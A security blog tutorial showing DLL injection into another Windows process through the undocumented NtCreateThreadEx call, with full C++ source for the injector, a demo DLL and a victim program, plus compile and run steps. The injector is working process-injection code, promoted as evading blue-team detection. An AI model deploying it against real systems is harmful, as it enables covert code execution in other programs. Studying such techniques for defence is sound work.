




## 21. DLL injection via undocumented NtCreateThreadEx. Simple C++ example.

{width="80%"}    

In the previous sections I wrote about classic DLL injection [via CreateRemoteThread](/pentest/2021/09/24/dll-hijacking-1.html), [via SetWindowsHookEx](https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html).   

Today I'll consider another DLL injection technique. Its meaning is that we are using an undocumented function `NtCreateThreadEx`. So let's go to show how to inject malicious DLL into the remote process by leveraging a Win32API functions `VirtualAllocEx`, `WriteProcessMemory`, `WaitForSingleObject` and an officially undocumented Native API `NtCreateThreadEx`.    

First of all, let's take a look at example C++ source code of our malicious DLL (`evil.c`):    

```cpp
/*
DLL example for DLL injection via NtCreateThreadEx
author: @cocomelonc
https://cocomelonc.github.io/pentest/2021/12/06/malware-injection-9.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

```

As usually, it's pretty simple. Just pop-up "Meow-meow!". 

Let's go to compile our DLL:   

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

{width="80%"}    

Then, let's take a look to the source code of our malware (`hack.cpp`):    

```cpp
/*
hack.cpp
DLL injection via undocumented NtCreateThreadEx example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/06/malware-injection-9.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

#pragma comment(lib, "advapi32.lib") 

typedef NTSTATUS(NTAPI* pNtCreateThreadEx) (
  OUT PHANDLE hThread,
  IN ACCESS_MASK DesiredAccess,
  IN PVOID ObjectAttributes,
  IN HANDLE ProcessHandle,
  IN PVOID lpStartAddress,
  IN PVOID lpParameter,
  IN ULONG Flags,
  IN SIZE_T StackZeroBits,
  IN SIZE_T SizeOfStackCommit,
  IN SIZE_T SizeOfStackReserve,
  OUT PVOID lpBytesBuffer
);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  SIZE_T rl; // return length

  char evilDll[] = "evil.dll";
  int evilLen = sizeof(evilDll) + 1;
  
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  LPTHREAD_START_ROUTINE lb = 
  (LPTHREAD_START_ROUTINE) GetProcAddress(
    hKernel32, "LoadLibraryA");
  pNtCreateThreadEx ntCTEx = (pNtCreateThreadEx)GetProcAddress(
    GetModuleHandle("ntdll.dll"), "NtCreateThreadEx");
  
  if (ntCTEx == NULL) {
    CloseHandle(ph);
    printf("NtCreateThreadEx failed :( exiting...\n");
    return -2;
  }

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed :( exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, evilLen, 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, evilDll, evilLen, rl); // NULL);

    ntCTEx(&ht, 0x1FFFFF, NULL, ph, 
    (LPTHREAD_START_ROUTINE) lb, rb, 
    FALSE, NULL, NULL, NULL, NULL);

    if (ht == NULL) {
      CloseHandle(ph);
      printf("ThreadHandle failed :( exiting...\n");
      return -2;
    } else {
      printf("successfully inject via NtCreateThreadEx :)\n");
    }
    
    WaitForSingleObject(ht, INFINITE);

    CloseHandle(ht);
    CloseHandle(ph);
  }
  return 0;
}

```

Let's go to investigate this code logic. As you can see, firstly, I used a function `FindMyProc` from one of my [past](/pentest/2021/09/29/findmyprocess.html) posts. It's pretty simple, basically, what it does, it takes the name of the process we want to inject to and try to find it in a memory of the operating system, and if it exists, it’s running, this function return a process ID of that process.   

Then, in `main` function our logic is same as in my [classic DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) post. The only difference is we use `NtCreateThreadEx` function instead `CreateRemoteThread`:

{width="80%"}    

As shown in this code, the Windows API call can be replaced with Native API call functions. For example, `VirtualAllocEx` can be replace with `NtAllocateVirtualMemory`, `WriteProcessMemory` can be replaces with `NtWriteProcessMemory`. 

The downside to this method is that the function is undocumented so it may change in the future.

But there is a caveat. Let's go to create simple code for our *"victim"* process (`mouse.c`):   

```cpp
/*
hack.cpp
victim process source code for DLL injection via NtCreateThreadEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/06/malware-injection-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int main() {
  MessageBox(NULL, "Squeak-squeak!", "<:( )~~", MB_OK);
  return 0;
}

```

As you can see, the logic is simplest, I's just pop-up `Squeak-squeak!` message. Let's go to compile: 

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-fpermissive
```

{width="80%"}    

And check:

{width="80%"}    

So everything is worked perfectly.  

Let's go to inject our malicious DLL to this process. Compile `hack.cpp`:
```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

{width="80%"}    

Then, run process hacker 2:

{width="80%"}    

As you can see, the highlighted process is our victim `mouse.exe`.    

Let's run our simple malware:   
```cmd
.\hack.exe mouse.exe
```

{width="80%"}    

As you can see our malware is correctly found process ID of victim.    

Let's go to investigate properties of our victim process `PID: 3884`:   

{width="80%"}    

{width="80%"}    

As you can see, our malicious DLL successfully injected as expected!   

But why we are not injecting to the another process like `notepad.exe` or `svchost.exe`?   

I read about [Session Separation](https://techcommunity.microsoft.com/t5/ask-the-performance-team/application-compatibility-session-0-isolation/ba-p/372361) and I think it is reason of my problem so I have one question: How I can hacking Windows 10 :)

The reason why it's good to have this technique in your arsenal is because we are not using `CreateRemoteThread` which is more popular and suspicious and which is more closely investigated by the blue teamers. 

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[Session Separation](https://techcommunity.microsoft.com/t5/ask-the-performance-team/application-compatibility-session-0-isolation/ba-p/372361)    
[source code in Github](https://github.com/cocomelonc/2021-12-06-malware-injection-9)    
